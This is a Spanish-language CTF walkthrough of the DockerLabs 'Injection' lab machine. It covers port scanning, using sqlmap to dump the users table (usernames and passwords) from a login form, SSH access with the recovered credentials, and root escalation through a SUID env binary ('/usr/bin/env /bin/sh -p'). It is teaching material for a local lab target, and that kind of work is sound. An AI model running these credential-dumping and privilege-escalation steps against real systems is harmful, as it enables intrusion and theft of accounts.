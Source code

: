 ```yaml
---
title: CTF-DockerLabs-Injection
published: true
---
```


## WriteUps maquina Injection de DockerLabs

---
tags:
  - CTF
  - estado/completado
  - plataforma: [DockerLabs]
  - dificultad: Muy fácil
  - autor: [ElPinguinoDeMario]

# Datos

[!INFO] Injection
>  **Nombre:** Injection
>  **SO:** Linux
>  **Dificultad:** Muy fácil
>  **Enlace:** [Dockerlabs](https://dockerlabs.es/)

[!TODO] Objetivo
> 🚩Ingresar a la maquina como algún usuario.
> 🚩Elevar privilegios una vez obtenido el acceso.

El primer paso consiste en iniciar la máquina, lo cual es tan sencillo como ejecutar el siguiente comando después de haber descargado la maquina:

```bash
└─$ sudo bash auto_deploy.sh injection.tar
```

# Reconocimiento

> Una vez iniciada la maquina, el mismo script de inicio me da la dirección IP a lo cual procedo a realizar un escaneo de puertos de la maquina y el resultado es el siguiente:

```bash
└─# nmap 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-22 15:28 EDT
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.27 seconds
```

Al darme cuenta que existe el `puerto 80` abierto, procedo a visitar desde el navegador la dirección IP de la maquina y me encuentro con una pantalla de login, donde es requerido un `User` y un `Password` que al chequear el código fuente, no encuentro nada interesante, pero si aplico la misma lógica que en las maquinas anteriores, respecto al nombre, ejemplo:

- [[Upload]] tenia que ver con la carga de archivos.
- [[Vacaciones]] con las vacaciones de juan.

Puedo pensar entonces que `injection` tenga que ver con `Inyección SQL` quizás, y para comprobar esto, voy a probar una herramienta que mi buen amigo El Pingüino de Mario enseña a utilizar en la [Academia de Ciberseguridad y Hacking Ético](https://elrincondelhacker.es/) El Rincón del Hacker y es `SQLmap` para ello utilizo el siguiente comando:

```bash
sqlmap -u http://172.17.0.2 --forms --dbs --batch
```

Lo que busco con este comando es que me muestre todas las base de datos que se encuentran en este sistema, el resultado es el siguiente:

```bash
[15:44:52] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[15:44:52] [INFO] fetching database names
[15:44:52] [INFO] retrieved: 'information_schema'
[15:44:52] [INFO] retrieved: 'register'
[15:44:52] [INFO] retrieved: 'sys'
[15:44:52] [INFO] retrieved: 'mysql'
[15:44:52] [INFO] retrieved: 'performance_schema'
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] register
[*] sys
```

Entonces de acuerdo a ello, ya conozco que existen 5 bases de datos, que estamos ante un Ubuntu 22.04 con un Apache 2.4.52 y usando MariaDB.

Ahora usando la misma herramienta voy a seleccionar la base de datos `register` y que me muestre las tablas de esa bd con el siguiente comando:

```bash
sqlmap -u http://172.17.0.2 --forms -D register --tables --batch

```

Ya tengo la base de datos `register`, tengo la tabla `users` y ahora requiero las columnas, que lo saco así:

```
sqlmap -u http://172.17.0.2 --forms -D register -T users --columns --batch
```

Y ya por ultimo seria obtener los datos de esta columna con el siguiente comando:

```
sqlmap -u http://172.17.0.2 --forms -D register -T users -C passwd,username --dump --batch
```

Con esto logro obtener un usuario y contraseña validos para acceder al formulario web que aparece en el sitio web.

![dylanInjection.png](https://raw.githubusercontent.com/4k4m1m3/blog/main/_posts/adjuntos/dylanInjection.png)

>> **Nota:** Si deseas conocer más información sobre inyecciones SQL o el uso de SQLmap, te invito a visitar la [Academia de Ciberseguridad y Hacking Ético](https://elrincondelhacker.es/) donde te enseñan de estos y otros temas.

# Acceso por SSH

> Lo interesante es que usando las credenciales encontradas con SQLmap he logrado ingresar por SSH a esta maquina, así que estando con el usuario `dylan` por SSH procedo a realizar un `sudo -l` y para mi sorpresa el resultado es:

`-bash: sudo: command not found`

Paso a revisar el directorio `/var/www/html` para chequear los permisos y los archivos allí, pero no encuentro nada especial, así que lo otro que intento es: `find / -perm -4000 -ls 2>/dev/null` y el resultado es el siguiente:

```bash
dylan@e4df575277c7:~$ find / -perm -4000 -ls 2>/dev/null
  1464485     72 -rwsr-xr-x   1 root     root        72712 Feb  6 13:54 /usr/bin/chfn
  1464553     72 -rwsr-xr-x   1 root     root        72072 Feb  6 13:54 /usr/bin/gpasswd
  1464611     48 -rwsr-xr-x   1 root     root        47480 Feb 21  2022 /usr/bin/mount
  1464627     60 -rwsr-xr-x   1 root     root        59976 Feb  6 13:54 /usr/bin/passwd
  1464717     36 -rwsr-xr-x   1 root     root        35192 Feb 21  2022 /usr/bin/umount
  1464491     44 -rwsr-xr-x   1 root     root        44808 Feb  6 13:54 /usr/bin/chsh
  1464691     56 -rwsr-xr-x   1 root     root        55672 Feb 21  2022 /usr/bin/su
  1484031     44 -rwsr-xr-x   1 root     root        43976 Jan  8 15:56 /usr/bin/env
  1464616     40 -rwsr-xr-x   1 root     root        40496 Feb  6 13:54 /usr/bin/newgrp
  1469073     36 -rwsr-xr--   1 root     messagebus    35112 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  1469133    332 -rwsr-xr-x   1 root     root         338536 Jan  2 17:54 /usr/lib/openssh/ssh-keysign
```

Me voy para nuestra plataforma favorita [GTFOBins](https://gtfobins.github.io/) y busco uno a uno los scripts del listado para encontrar alguno que se pueda aprovechar con los `SUID`

- **/usr/bin/chfn:** No binary matches...
- **/usr/bin/gpasswd:** No binary matches...
- **/usr/bin/mount:** Sudo
- **/usr/bin/passwd:** No binary matches...
- **/usr/bin/chfn:** No binary matches...
- **/usr/bin/umount:** No binary matches...
- **/usr/bin/chsh:** No binary matches...
- **/usr/bin/su:** Sudo
- **/usr/bin/env:** Shell - SUID - Sudo
# Escalada de privilegios

Y allí encontramos, con mucha paciencia el script vulnerable `/usr/bin/env` a `SUID`, así que según el sitio [env | GTFOBins](https://gtfobins.github.io/gtfobins/env/#suid) si coloco:

```
sudo install -m =xs $(which env) .
ó
./env /bin/sh -p
```

Puedo acceder como root, pero al colocar el primero no me funciono pues el sudo esta desactivado, pero el segundo tampoco me funciono, pues debo colocar la ruta completa así y listo:

```
/usr/bin/env /bin/sh -p
```

Y allí si estamos dentro (¡PWNED!)

# Comandos

[!IMPORTANT] Resumen de comandos utilizados
> `sudo bash auto_deploy.sh injection.tar`
> `nmap 172.17.0.2`
> `sqlmap -u http://172.17.0.2 --forms --dbs --batch`
> `sqlmap -u http://172.17.0.2 --forms -D register --tables --batch`
> `sqlmap -u http://172.17.0.2 --forms -D register -T users --columns --batch`
> `sqlmap -u http://172.17.0.2 --forms -D register -T users -C passwd,username --dump --batch`
> `find / -perm -4000 -ls 2>/dev/null`
> `/usr/bin/env /bin/sh -p`


```
¡Que la fuerza del hacking ético nos acompañe! :)
```

|   |
|:--|
|   |